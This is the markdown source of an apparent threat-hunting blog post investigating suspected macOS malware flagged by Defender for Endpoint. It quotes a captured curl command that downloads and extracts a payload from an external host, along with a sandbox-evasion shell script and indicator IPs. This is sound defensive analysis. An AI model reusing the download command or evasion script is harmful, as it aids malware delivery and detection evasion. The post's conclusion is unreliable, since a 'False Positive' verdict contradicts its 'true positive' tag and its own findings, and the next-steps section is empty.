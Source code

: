 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

{% include mermaid_start.liquid %}
flowchart TD;
    kernel_task --> launchd;
    launchd --> xpcproxy;
    xpcproxy --> |run| apadecoded;
    apadecoded --> |run| 451CEB63-C438-40C3-899F-0BE4F425F074;
    apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
    apadecoded --> |run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
    451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
    DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> curl;
    AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
    curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.142;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.134;
    89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
    89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
    /private/var/tmp/helpexecd/helpexecd.tgz --> |extract| helpexecd;
    helpexecd --> 35.160.226.50;
    helpexecd --> 34.217.226.241;
    style apadecoded stroke-dasharray: 88.5 44
    style helpexecd stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

